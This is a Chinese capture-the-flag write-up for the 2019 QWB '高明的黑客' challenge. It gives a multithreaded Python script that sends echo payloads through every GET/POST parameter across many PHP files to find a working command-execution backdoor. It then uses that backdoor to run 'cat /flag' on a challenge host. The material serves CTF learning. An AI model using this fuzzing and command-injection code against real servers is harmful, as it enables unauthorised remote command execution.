 # \[强网杯 2019]高明的黑客

## \[强网杯 2019]高明的黑客

## 考点

* 爆破脚本书写
* Python正则表达式
* Python多线程

## wp

www.tar.gz下载源码，使用notepad++在src目录中查找system，还是有很多

![](<../.gitbook/assets/image (29) (1).png>)

只能用脚本多线程跑

```php
import os
import re
import requests
import threading

lock = threading.Lock()
path = 'src/'
files = os.listdir(path)
url = 'http://localhost:8888/intru/src/'

def send_req(file):
    f = open('src/'+file)
    ff = f.read()
    lock.acquire()
    f.close()
    lock.release()
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = url + file + '?' + ('=echo "peri0d"&'.join(get_res)).replace("$_GET['",'').replace("']",'') + '=echo "peri0d"'
    data = {}
    for i in post_res:
        data[i[8:-2]] = 'echo "peri0d"'
    response = requests.post(url_test, data=data)
    print(response.text)
    # print(url_test)
    # print(data)
    if "peri0d" in response.text:
        print(file)
        return file
    

#send_req('xk0SzyKwfzw.php')
l = []
for i in files:
    t = threading.Thread(target=send_req, args=(i,))
    t.start()
    l.append(t)
for i in l:
    i.join()
```

得到结果xk0SzyKwfzw.php

![](<../.gitbook/assets/image (16) (1).png>)

再写一个`get_flag`函数，复制粘贴前面的代码，改一下地址和shell

```python
def get_flag(file):
    f = open('src/'+file)
    ff = f.read()
    f.close()
    
    shell = 'cat /flag'
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = 'http://70b853eb-51ee-40c5-a69c-ab1ec94682a8.node4.buuoj.cn:81/' + file + '?' + (f'={shell}&'.join(get_res)).replace("$_GET['",'').replace("']",'') + f'={shell}'
    data = {}
    for i in post_res:
        data[i[8:-2]] = shell
    response = requests.post(url_test, data=data)
    # print(url_test)
    # print(data)
    if "flag" in response.text:
        print(response.text)
        return file
get_flag('xk0SzyKwfzw.php')
```

![](<../.gitbook/assets/image (33).png>)
